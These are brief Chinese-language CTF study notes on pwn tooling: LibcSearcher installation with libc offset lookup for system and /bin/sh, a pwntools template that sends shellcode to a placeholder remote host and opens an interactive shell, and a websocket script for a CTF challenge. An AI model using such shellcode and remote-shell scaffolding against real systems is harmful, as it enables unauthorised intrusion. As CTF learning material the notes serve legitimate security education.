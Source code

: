 
## misc

## Pwn

这个是pwntools工具等的下载

[pwn 基础环境搭建_pwn环境配置-CSDN博客](https://blog.csdn.net/weixin_41748164/article/details/140165588)

**LibcSearcher**:

> ```
> git clone https://github.com/lieanu/LibcSearcher.git
> cd LibcSearcher
> python setup.py develop
> ```

```python
from LibcSearcher import *

#第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型
obj = LibcSearcher("fgets", 0X7ff39014bd90)

obj.dump("system")        #system 偏移
obj.dump("str_bin_sh")    #/bin/sh 偏移
obj.dump("__libc_start_main_ret")   
```

**pwntools**

这里面基本什么都有

```py
from pwn import *
context(arch = 'i386', os = 'linux')

r = remote('exploitme.example.com', 31337)
# EXPLOIT CODE GOES HERE
r.send(asm(shellcraft.sh()))
r.interactive()
```

```py
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/3a9ab06c-72fc-4fb5-bd6c-aa4906c123b6")

p.recv() # 接收“Input your decimal number:”
p.sendline("1010") # 发送 1010
p.recv() # 接收“What do you want to turn it into:”
p.sendline("0") # 发送 0
p.interactive() # 来到交互界面，查看 flag
```
